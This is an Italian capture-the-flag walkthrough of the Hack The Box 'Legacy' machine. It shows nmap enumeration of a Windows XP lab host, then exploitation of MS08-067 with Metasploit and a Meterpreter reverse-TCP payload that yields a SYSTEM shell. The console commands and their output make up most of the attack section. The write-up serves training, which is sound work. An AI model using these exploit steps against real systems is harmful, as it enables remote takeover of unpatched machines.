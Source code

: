 ```yaml
---
title: "Legacy Walkthrough"
description: "Legacy è una macchina abbastanza semplice di livello easy che dimostra i potenziali rischi per la sicurezza del protocollo SMB su Windows. È sufficiente un unico exploit disponibile pubblicamente per ottenere accesso come amministratore."
author: dua2z3rr
date: 2025-08-12 1:00:00
categories: [Machines]
tags: ["Area di Interesse: Protocols", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Security Tools", "Area di Interesse: Enterprise Network", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Remote Code Execution"]
image: /assets/img/legacy/legacy-resized.png"
---
```



## Enumerazione Esterna

### Nmap

Cominciamo con nmap.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.4 -vv -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-12 18:47 CEST
Initiating Ping Scan at 18:47
Scanning 10.10.10.4 [4 ports]
Completed Ping Scan at 18:47, 0.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:47
Completed Parallel DNS resolution of 1 host. at 18:47, 0.32s elapsed
Initiating SYN Stealth Scan at 18:47
Scanning 10.10.10.4 [65535 ports]
Discovered open port 135/tcp on 10.10.10.4
Discovered open port 445/tcp on 10.10.10.4
Discovered open port 139/tcp on 10.10.10.4
<SNIP>
```

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.4 -sC -sV -vv -p 135,139,445
<SNIP>
PORT    STATE SERVICE      REASON          VERSION
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 17574/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 42555/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2025-08-17T21:46:38+03:00
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6d:54 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:94:6d:54:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
```

### Ricerca Vulnerabilità

Cerchiamo una vinerabilità per Windows XP (Windows 2000 LAN Manager) riguardante SMB.
Possiamo utilizzare la vulnerabilità **CVE-2008-4250** (anche chiamata **MS08-067**).

![Desktop View](/assets/img/legacy/legacy-vulnerabilità.png)

## Exploit

### MetaSploit

Utilizziamo msfconsole per l'exploit.

```shell
─[dua2z3rr@parrot]─[~]
└──╼ $msfconsole
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> search CVE-2008-4250

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption

<SNIP>

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

<SNIP>

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.230.43.82     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set RHOST 10.10.10.4
RHOST => 10.10.10.4
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set LHOST tun0
LHOST => 10.10.14.4
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit
[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.4:1038) at 2025-08-12 19:21:20 +0200

(Meterpreter 1)(C:\windows) > getuid
Server username: NT AUTHORITY\SYSTEM
```

Prendiamo le flag e terminiamo la box.

> Le user directory si trovano nella cartella **C:\Documents and Settings** essendo Windows XP
{: .prompt-tip }

## Spiegazione Vulnerabilità

### MS08-067

MS08-067 è una vulnerabilità Buffer Overflow di Microsoft Servser Service. La Vulnerabilità consiste nell'inviare un pacchetto TCP attentamente craftato per permettere remote code execution sulla macchina nemica.

> Non sai cosa sono i Buffer Overflow? Leggi questo mio post per capirne di più! <https://dua2z3rr.github.io/posts/Buffer-Overflow/>
{: .prompt-info }

Molti malware sono stati creati tramite questa vulnerabilità. Un esempio è **Conficker worm**, che infettò milioni di computer in tutto il mondo. 
Attraverso questa vulnerabilità gli attacanti hanno accesso a dati sensibili oltre alla possibilità di installare ulteriore malware sulla macchina.
Gli OS vulnerabili sono: Microsoft Windows 2000, Windows XP, Windows Server 2003, Windows Vista, and Windows Server 2008.
